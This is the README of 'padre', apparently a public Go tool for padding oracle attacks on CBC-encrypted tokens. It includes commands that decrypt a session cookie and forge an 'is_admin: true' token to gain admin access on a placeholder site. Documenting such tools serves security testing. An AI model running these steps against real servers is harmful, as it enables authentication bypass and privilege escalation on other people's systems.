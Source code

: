 # padre
***padre*** is an advanced exploiter for Padding Oracle attacks against CBC mode encryption

Features:
- blazing fast, concurrent implementation
- decryption of tokens
- encryption of arbitrary data
- automatic fingerprinting of padding oracles
- automatic detection of cipher block length
- HINTS! if failure occurs during operations, padre will hint you about what can be tweaked to succeed
- supports tokens in GET/POST parameters, Cookies
- flexible specification of encoding rules (base64, hex, etc.)

## Demo

![demo](demo.gif )

## Installation/Update
```console
go get -u github.com/glebarez/padre
```

## Usage scenario
If you find a suspected padding oracle, where the encrypted data is stored inside a cookie named SESS, you can use the following:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' 'Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg=='
```
padre will automatically fingerprint HTTP responses to determine if padding oracle can be confirmed. If server is indeed vulnerable, the provided token will be decrypted into something like:
```json
 {"user_id": 456, "is_admin": false}
```
It looks like you could elevate your privileges here!

You can attempt to do so by first generating your own encrypted data that the oracle will decrypt back to some sneaky plaintext:
```bash
padre -u 'https://target.site/profile.php' -cookie 'SESS=$' -enc '{"user_id": 456, "is_admin": true}'
```
This will spit out another encoded set of encrypted data, perhaps something like below (if base64 used):
```text
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```
Now you can open your browser and set the value of the SESS cookie to the above value. Loading the original oracle page, you should now see you are elevated to admin level.

## Impact of padding Oracles
- disclosing encrypted session information
- bypassing authentication
- providing fake tokens that server will trust
- generally, broad extension of attack surface

## Further read
- https://blog.skullsecurity.org/2013/a-padding-oracle-example
- https://blog.skullsecurity.org/2016/going-the-other-way-with-padding-oracles-encrypting-arbitrary-data

## Alternative tools
- https://github.com/liamg/pax
- https://github.com/AonCyberLabs/PadBuster